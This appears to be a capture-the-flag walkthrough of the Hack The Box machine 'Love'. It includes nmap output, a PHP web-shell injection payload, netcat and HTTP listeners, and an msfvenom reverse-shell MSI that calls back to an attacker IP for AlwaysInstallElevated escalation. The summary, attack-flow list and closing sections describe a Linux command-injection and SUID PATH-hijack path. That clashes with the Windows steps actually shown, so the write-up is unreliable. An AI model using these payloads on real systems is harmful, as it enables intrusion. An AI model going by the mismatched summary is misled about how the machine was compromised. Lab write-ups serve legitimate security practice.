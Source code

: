 ```yaml
---
title: "Love"
date: 2024-09-27
categories: HTB
description: "HTB Love walkthrough demonstrating command injection in a login form and PATH hijacking of a SUID binary to escalate privileges to root."
tags: [command-injection, suid, path-hijacking, linux, reverse-shell]
---
```


Love is a web-focused Linux machine that hides a command injection vulnerability behind a modern-looking frontend.

Access was obtained by fuzzing POST parameters and identifying a function that insecurely passed input to the shell.

The initial payload leveraged simple logic chaining to bypass sanitization checks.

Escalated privileges by exploiting a SUID binary that relied on a relative `date` call, allowing me to hijack it via a malicious script placed in the modified `PATH`.

## Why I Chose This Machine

I selected Love because it presents a simple yet realistic web-to-root path, combining command injection and environment variable-based privilege escalation.  
It also allowed me to practice identifying weak input filtering and SUID misconfiguration — both critical red-team fundamentals.

## Attack Flow Overview

1. Fuzzed parameters in a login form and discovered a command injection vulnerability  
2. Used payloads to gain a reverse shell from the server  
3. Identified a SUID binary that called external programs using relative paths  
4. Overwrote the `PATH` environment variable to hijack a `date` command and execute a root shell

This machine demonstrates how shallow input sanitization and poor operational hygiene can lead to full system compromise.

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
| SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
...
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| mysql-info: 
|_  MySQL Error: Host '10.10.14.42' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Arucer, Hello, NULL, SSLSessionReq, ZendJavaBridge, afp, dominoconsole, epmd, gkrellm, ibm-mqseries, mongodb, redis-server, riak-pbc, tarantool, vp3: 
|_    Host '10.10.14.42' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-07-21T08:04:42+00:00; +21m34s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
...
|_http-title: Not Found
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

### 80-HTTP

#### Gobuster

![screenshot](/assets/images/love11.png)

#### Web

![screenshot](/assets/images/love1.png)

http://staging.love.htb/

![screenshot](/assets/images/love2.png)

http://staging.love.htb/beta.php

![screenshot](/assets/images/love3.png)

#### Test for command injection

![screenshot](/assets/images/love7.png)

![screenshot](/assets/images/love6.png)

#### Test for reverse shell

```sh
# kali
python3 -m http.server 80
# kali
nc -lvnp 9001
# form
http://10.10.14.42/$(<?=`$_GET[0]`?>)
```

![screenshot](/assets/images/love8.png)

#### /admin

http://10.10.10.239/Admin/

![screenshot](/assets/images/love9.png)

#### /plugins

http://10.10.10.239/plugins/

![screenshot](/assets/images/love10.png)

## Initial Access

>- Searching for `voting system` reveals a public exploit
- Using the public exploit gives initial shell as phoebe.

![screenshot](/assets/images/love15.png)

[Public exploit used](https://www.exploit-db.com/exploits/49846)

![screenshot](/assets/images/love16.png)

upload a shell

![screenshot](/assets/images/love17.png)

rev.ps1

![screenshot](/assets/images/love18.png)

![screenshot](/assets/images/love19.png)

Used a PHP Ivan web shell

![screenshot](/assets/images/love20.png)

## Privilege Escalation

> AlwaysInstallElevated

`C:\xampp\htdocs\passwordmanager\creds.txt` contains a password. 

![screenshot](/assets/images/love21.png)

Password spray, and Evil-WinRM attempt.

![screenshot](/assets/images/love22.png)

Manual enumeration

![screenshot](/assets/images/love23.png)

![screenshot](/assets/images/love24.png)

[Reference](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

![screenshot](/assets/images/love25.png)

```sh
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=443 -f msi -o rev.msi
```

![screenshot](/assets/images/love26.png)

## Alternative Paths Explored

Initially attempted SSRF and file inclusion vectors on the login form, but got filtered.  
Also searched for cron jobs and writable scripts, which turned out to be dead ends.  
Eventually, I traced the root path by inspecting how the SUID binary behaved and noticing external command execution.

## Blue Team Perspective

Love showcases the importance of secure coding and binary execution hygiene.  
Defensive strategies include:

- Avoiding unsanitized shell calls from web interfaces  
- Not relying on relative paths in SUID binaries  
- Restricting environmental influence via `secure_path` in `/etc/sudoers`